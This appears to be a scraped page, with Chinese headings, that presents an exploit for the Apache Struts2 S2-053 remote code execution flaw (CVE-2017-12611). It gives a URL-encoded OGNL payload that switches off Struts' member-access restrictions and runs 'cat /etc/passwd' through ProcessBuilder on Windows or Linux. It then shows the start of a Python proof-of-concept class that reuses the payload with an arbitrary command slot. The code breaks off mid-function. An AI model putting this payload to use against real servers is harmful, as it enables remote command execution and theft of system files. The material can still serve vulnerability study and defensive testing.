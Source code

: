 #### 读取文件

```java
%25%7B(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23_memberAccess%3F(%23_memberAccess%3D%23dm)%3A((%23container%3D%23context%5B'com.opensymphony.xwork2.ActionContext.container'%5D).(%23ognlUtil%3D%23container.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ognlUtil.getExcludedPackageNames().clear()).(%23ognlUtil.getExcludedClasses().clear()).(%23context.setMemberAccess(%23dm)))).(%23cmd%3D'cat%20%2fetc%2fpasswd').(%23iswin%3D(%40java.lang.System%40getProperty('os.name').toLowerCase().contains('win'))).(%23cmds%3D(%23iswin%3F%7B'cmd.exe'%2C'%2Fc'%2C%23cmd%7D%3A%7B'%2Fbin%2Fbash'%2C'-c'%2C%23cmd%7D)).(%23p%3Dnew%20java.lang.ProcessBuilder(%23cmds)).(%23p.redirectErrorStream(true)).(%23process%3D%23p.start()).(%40org.apache.commons.io.IOUtils%40toString(%23process.getInputStream()))%7D%0A
```

### POC

```python
#!/usr/bin/env python3

import re
import urllib
import random
import string
import requests

class S2_053_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'S2-053漏洞,又名CVE-2017-12611漏洞',
            'description': 'Struts2 Remote Code Execution Vulnerability, Struts 2.0.0 - 2.3.33 Struts 2.5 - Struts 2.5.10.1',
            'date': '2017-09-06',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        
        self.capta = self.get_capta()
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Content-Type': "application/x-www-form-urlencoded",
        }
        self.payload = '''%25%7B(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23_memberAccess%3F(%23_memberAccess%3D%23dm)%3A((%23container%3D%23context%5B'com.opensymphony.xwork2.ActionContext.container'%5D).(%23ognlUtil%3D%23container.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ognlUtil.getExcludedPackageNames().clear()).(%23ognlUtil.getExcludedClasses().clear()).(%23context.setMemberAccess(%23dm)))).(%23cmd%3D'{cmd}').(%23iswin%3D(%40java.lang.System%40getProperty('os.name').toLowerCase().contains('win'))).(%23cmds%3D(%23iswin%3F%7B'cmd.exe'%2C'%2Fc'%2C%23cmd%7D%3A%7B'%2Fbin%2Fbash'%2C'-c'%2C%23cmd%7D)).(%23p%3Dnew%20java.lang.ProcessBuilder(%23cmds)).(%23p.redirectErrorStream(true)).(%23process%3D%23p.start()).(%40org.apache.commons.io.IOUtils%40toString(%23process.getInputStream()))%7D%0A'''
    
    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """

```